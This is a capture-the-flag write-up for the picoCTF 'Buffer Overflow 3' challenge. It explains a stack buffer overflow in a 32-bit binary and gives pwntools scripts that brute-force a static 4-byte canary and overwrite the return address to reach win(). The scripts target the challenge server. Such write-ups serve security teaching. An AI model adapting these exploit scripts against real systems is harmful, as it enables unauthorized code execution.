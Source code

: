 
# Bypassing Stack Canary to Hijack Control Flow — picoCTF Buffer Overflow 3 Exploit

## 📘 Challenge Summary

You are provided with a vulnerable C binary and two support files: `flag.txt` and `canary.txt`. The goal is to trigger the `win()` function that reads the flag from `flag.txt`.

---

## 🔍 Source Code Review

Here’s a summary of the vulnerable behavior in the `vuln()` function:

```c
void vuln(){
   char canary[CANARY_SIZE];  // 4 bytes
   char buf[BUFSIZE];         // 64 bytes
   char length[BUFSIZE];      // input for read length
   ...
   memcpy(canary,global_canary,CANARY_SIZE);
   ...
   read(0, buf, count);
   ...
   if (memcmp(canary, global_canary, CANARY_SIZE)) {
       printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n");
       exit(0);
   }
}
```

### Key Observations

* The function reads an arbitrary number of bytes (`count`) into a buffer `buf[64]` without bounds checking.
* It uses a **stack canary** (`canary`) copied from a global `global_canary`, read from a file at runtime (`canary.txt`).
* If `buf` is overflown, the canary is corrupted, and the program exits.
* After passing the canary check, **control returns normally** — so we can **overwrite the return address** and hijack execution to `win()`!

---

## 🎯 Goal

* Leak or brute-force the 4-byte stack canary.
* Bypass stack smashing check.
* Overwrite the return address to jump to the `win()` function.
* Get the flag printed by `win()`.

---

## 🔓 Step 1: Brute-forcing the Canary

The canary is not randomized per run (static value loaded from a file), so brute-forcing it byte-by-byte is viable.

### Brute-forcer Script

```python
from pwn import *
import string

canary_offset = 64  # buffer size before canary
canary = b""

chall = ELF("./vuln")

def get_process():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 54612)
    else:
        return chall.process()

# Bruteforce one byte at a time
for i in range(1, 5):
    for c in string.printable:
        r = get_process()
        r.sendlineafter(b"> ", str(canary_offset + i).encode())

        payload = b"A" * canary_offset + canary + c.encode()
        r.sendlineafter(b"> ", payload)
        resp = r.recvall()

        print(resp)
        if b"Now Where's the Flag" in resp:
            canary += c.encode()
            break
        r.close()

print(f"Found Canary: {canary}")
```

### Logic

* Starts with 64 'A's (to fill buffer)
* Adds known good canary bytes
* Tries each printable character for the next byte
* Sends payload and checks output
* If it passes the canary check, it keeps the byte

we get canary = BiRd

---

## ✅ Step 2: Exploit Script to Trigger `win()`

Now that we have the correct canary (e.g., `"BiRd"`), we can craft a full payload:

### Exploit Script

```python
from pwn import *

# === Configuration ===
HOST = 'saturn.picoctf.net'
PORT = 54612
context.binary = elf = ELF('./vuln')
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

# === Canary (discovered via brute-force) ===
canary = b"BiRd"
assert len(canary) == 4

# === Address of win() ===
win_addr = 0x0804933a
log.info(f"win() @ {hex(win_addr)}")

# === Payload Construction ===
payload  = b'A' * 64           # buffer
payload += canary              # correct canary value
payload += b'B' * 16           # saved EBP + some filler
payload += p32(win_addr)       # overwrite RET address

# === Exploiting ===
io = remote(HOST, PORT)
io.sendlineafter(b"> ", b"100")  # count > len(payload)
io.sendlineafter(b"> ", payload)
io.interactive()
```

### Why 100 bytes?

We specify `100` as the count to ensure the `read()` reads enough bytes into the stack to reach and overwrite the return address.

---

## 💥 Stack Layout Visualization

```
[ buf[64]       ]  --> 'A'*64
[ canary[4]     ]  --> must match 'BiRd'
[ saved EBP(4)  ]  --> filler 'B'*4
[ alignment(12) ]  --> optional filler (depends on compiler)
[ RET address   ]  --> overwrite with win()
```

You may pad more or less depending on local testing, but in this case, 16 bytes of padding (`'B'*16`) works.

---

## 🧪 Test and Flag

After running the exploit, you should get:

![result](./img/result.png)

---

## 📝 Conclusion

| Step                | Description                                |
| ------------------- | ------------------------------------------ |
| Vulnerability       | Stack buffer overflow                      |
| Mitigation Bypassed | Canary (4-byte, static)                    |
| Method              | Brute-force canary, control return address |
| Goal                | Jump to `win()` to get the flag            |
| Exploit Difficulty  | Beginner-friendly ROP with brute-force     |

---

## 🔐 Extra Notes

* This is a *32-bit* binary (`x86`, not `x64`)
* No PIE, no ASLR when remote
* Canary is static, allowing easy brute-force
* `win()` has no arguments; just jumping is enough

